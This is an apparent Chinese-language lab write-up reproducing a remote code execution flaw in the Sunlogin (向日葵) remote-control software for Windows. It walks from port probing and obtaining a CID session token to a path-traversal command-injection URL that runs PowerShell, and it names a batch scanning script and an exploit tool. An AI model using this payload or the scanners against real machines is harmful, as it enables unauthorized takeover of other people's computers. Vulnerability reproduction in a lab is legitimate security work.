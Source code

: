 # CNVD-2022-10270/CNVD-2022-03672 向日葵RCE复现

## 前言

向日葵是一款免费的集远程控制电脑手机、远程桌面连接、远程开机、远程管理、支持内网穿透的一体化远程控制管理工具软件。

于2022年2月5日和2022年2月15日，CNVD公开上海贝锐信息科技股份有限公司的向日葵远控软件存在远程代码执行漏洞（CNVD-2022-10270/CNVD-2022-03672），影响Windows系统使用的个人版和简约版，攻击者可利用该漏洞获取服务器控制权。

### 影响版本

```rust
向日葵个人版   for Windows <= 11.0.0.33
向日葵简约版   <= V1.0.1.43315（2021.12）
```

### 漏洞级别

**高危**

## 环境搭建

在虚拟机里安装11.0.0.33的低版本向日葵

![image-20230219135253229](https://static.sechelper.com/img/2023/02/19/0e9310d39d6dab64bd3b1a19d4f998dd.png)



## 漏洞复现

使用nmap或其他工具探测目标端口

![image-20230219135507131](https://static.sechelper.com/img/2023/02/19/9e001275cc9492a214e5983cef3b272a.png)

在浏览器中访问ip+端口号+cgi-bin/rpc?action=verify-haras  （端口号：每一个都尝试，直到获取到session值CID）

![image-20230219150724105](https://static.sechelper.com/img/2023/02/19/b163e8baaf5182d528e63123e27307d2.png)

Cookies添加拿到的CID后加上payload请求

`http://192.168.52.133:49437/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+ whoami`

![image-20230219151000880](https://static.sechelper.com/img/2023/02/19/2e0885b0c77014c7e4b5537b0088f8ec.png)

![image-20230219151134780](https://static.sechelper.com/img/2023/02/19/0c403efcedf24d411d2da115b6edb5ee.png)

手动复现完成



### 工具使用

使用工具自带的扫描

`xrkRce.exe` -h ip -t scan

![image-20230219152233952](https://static.sechelper.com/img/2023/02/19/d2011971c95e90d74318e1d4bf3a090f.png)

测试命令执行

![image-20230219153035239](https://static.sechelper.com/img/2023/02/19/49e6cde2a8fe7e06471caff2c6de7117.png)



### 批量检测

`python3 sunlogin-fuzz.py -t 192.168.52.128/25`

![image-20230219162629384](https://static.sechelper.com/img/2023/02/19/a2714a6e433bc190d0041018c53ed840.png)

相关工具文件，安装包私信公众号**向日葵**获取